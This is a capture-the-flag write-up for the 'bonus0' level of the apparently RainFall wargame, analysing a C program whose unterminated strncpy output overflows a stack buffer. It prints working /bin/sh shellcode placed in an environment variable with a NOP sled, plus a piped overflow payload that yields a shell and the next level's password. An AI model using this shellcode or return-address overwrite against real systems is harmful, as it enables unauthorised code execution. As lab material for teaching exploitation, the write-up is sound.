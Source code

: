 # bonus0

### First analysis

The code of this level is in 3 part but is actually quite simple to understand:

```c
void p(char *ppBuffer, char *message) {
    char    buffer[4096];

    puts(message);
    read(0, buffer, 4096);
    *strchr(buffer, '\n') = 0;
    strncpy(ppBuffer, buffer, 20);

    return;
}

void pp(char *mainBuffer) {
    char    buffer1[20];
    char    buffer2[20];
    size_t  len;

    p(buffer1, " - ");
    p(buffer2, " - ");

    strcpy(mainBuffer, buffer1);

    len = strlen(mainBuffer);
    mainBuffer[len] = ' ';

    strcat(mainBuffer, buffer2);

    return;
}

int main(void) {
    char buffer[54];

    pp(buffer);
    puts(buffer);

    return 0;
}
```

So we have a main function that calls pp and print a buffer of 54 after that. pp() is going to set this buffer following those steps:
- First it created 2 buffers of 20 chars long
- It calls p() function 2 times that read 4096 chars from stdin, and take the firsts 20 chars of it and return it to pp()
- It takes the first 20 chars returned from p(), add a space after, and concatenate with the second return value of p()
- This gives us a buffer like: [20 chars from p()] + ' ' + [20 chars from p()]

We can easily see a problem here, as p() doesn't set a '\0' character at the end of the 20 char, but at the end of the buffer entered by the user. So if we enter more than 20 chars into the first buffer, it won't be null terminated. this gives us this weird results when trying to do so:

```sh
bonus0@RainFall:~$ ./bonus0 
 - 
AAAABBBBCCCCDDDDEEEE
 - 
aaaabbbbccccddddeeee
AAAABBBBCCCCDDDDEEEEaaaabbbbccccddddeeee��� aaaabbbbccccddddeeee���
Segmentation fault (core dumped)

```

As we can see the buffer printed at the end is made of:

```
[20 char first buffer] [20 char second buffer] [???] [20 char second buffer] [???]
```

The question marks are printed because the buffer is non null terminated and doesn't know where to stop reading the string, then segfault.

So what happend is that the first buffer is set with 20 chars without a '\0' at the end. Since the space memory of buffer1 and buffer2 are next to each other, once buffer2 is set, if we read buffer1, we will read both buffer. So when the program use strcpy to place buffer1 into the main buffer, it actually prints 40 chars (plus a little garbage), then it add a space after, then finally it concatenates buffer2 with the actual states of main buffer. This is why we can see buffer2 appears 2 times. We also understand that an overflow is possible since we have control on 61 char over the 54 main buffer size. (the buffer size in our program is set from decompiler guesses, it could be different, the only thing we know is that there is an overflow).

Now that we know that we can also make an analysis, the size of the buffer of 20 doesn't allow us to make use a shellcode since the shortest we found is 21 chars long. We tried to take the first 20 chars into buffer1 and add the last one into buffer 2 but nothing worked. And we know that we probably need a shellcode since nowhere in the script a shell is launched or the password of bonus1 is printed.

After a bit of researches we found 2 options for short buffer overflow, there is the FPO which doesn't match our situation at all, and there is the usage of a env variable.

Indeed env variables are accessible from the program launched and it uses our env in order to do that. If we used the env to store the shellcode, then find a way to redirect the program to the location in the memory of this env variable, it could work.

For that we first set a env variable for the shellcode with a bunch of NOP instructions before because addresses can slithly change from time to time, so if we reach the bad address, we will fall into the NOP instructions and the shellcode will still work:

```sh
export SHELLCODE=$(python -c "print('\x90' * 500 + '\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80')")
```

Then we write a little script to get the address of this shellcode:

```c
int main(int ac, char **av) {
    printf("%p", getenv(av[1]));
    return 0;
}
```

This script is available in ./Resouces/env_address.c, it will print you the address of the env variable, that we will need to translate in little endian.

Once we have this we have to find where to type this address, where can we overflow an address ? For that we do the usual test on gdb that will give us a possible segfault address:

```sh
(gdb) run
Starting program: /home/user/bonus0/bonus0 
 - 
AAAABBBBCCCCDDDDEEEE
 - 
aaaabbbbccccddddeeee
AAAABBBBCCCCDDDDEEEEaaaabbbbccccddddeeee��� aaaabbbbccccddddeeee���

Program received signal SIGSEGV, Segmentation fault.
0x64636363 in ?? ()
```

We see that the address of segfault is 0x64636363 so, the hex value of dccc, in big endian cccd. We know that our address has to be place with a padding of 9 chars in the second argument. And we end up with:

```sh
bonus0@RainFall:~$ (python -c "print '\x90' * 30"; python -c "print 'A' * 9 + '\x1f\xf7\xff\xbf' + 'B' * 7"; cat) | ./bonus0
 - 
 - 
��������������������AAAAAAAAA���BBBBBBB��� AAAAAAAAA���BBBBBBB���
whoami
bonus1
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```
